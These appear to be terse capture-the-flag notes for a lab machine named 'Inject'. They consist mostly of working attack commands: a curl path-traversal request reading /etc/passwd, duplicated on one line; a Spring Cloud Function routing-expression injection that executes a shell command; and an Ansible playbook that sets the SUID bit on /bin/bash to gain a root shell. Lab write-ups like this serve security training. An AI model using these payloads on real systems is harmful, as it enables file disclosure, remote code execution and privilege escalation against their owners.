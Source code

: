 # Inject

This involved changing the ansible playbook after initial foothold

```
curl http://10.129.178.113:8080/show_image?img=../../../../../../etc/passwdcurl http://10.129.178.113:8080/show_image?img=../../../../../../etc/passwd
```

LFI vulnerability

```
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v
```


```
- hosts: localhost
  tasks:
  - name: giving me root shell
    ansible.builtin.shell: |
      chmod u+s /bin/bash
    become: true 
```